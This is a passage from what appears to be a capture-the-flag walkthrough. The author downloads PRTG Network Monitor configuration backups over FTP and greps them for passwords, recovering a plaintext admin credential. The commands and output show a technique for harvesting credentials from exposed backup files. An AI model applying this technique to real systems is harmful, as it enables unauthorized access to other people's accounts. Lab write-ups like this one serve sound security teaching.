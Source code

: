 Perfect! Looks like we have all the bak and old files listed in the thread! Time to download them and see what they contain:
```
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 3.22 secs (360.2972 kB/s)
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 5.16 secs (225.1696 kB/s)
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 3.00 secs (375.4600 kB/s)
ftp> get "PRTG Graph Data Cache.dat"
local: PRTG Graph Data Cache.dat remote: PRTG Graph Data Cache.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 467 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
1646511 bytes received in 4.00 secs (402.2832 kB/s)
```
Looking at the files, we can see that the “PRTG Configuration.old.bak” file is the oldest. so lets start there:
```
root@kali: cat PRTG\ Configuration.old.bak| grep -A 10 -B 10 password 
              <flags>
                <encrypted/>
              </flags>
            </comments>
            <dbauth>
              0
            </dbauth>
            <dbcredentials>
              0
            </dbcredentials>
            <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
              60
            </dbtimeout>
            <depdelay>
              0
...
```
After looking at the file contents manually we can see that they are XML nodes and so we use the `-A` and `-B` arguments in grep to grab 10 lines above and below any lines that match the string “password” and we can see that we get a match for `prtgadmin:PrTg@dmin2018`
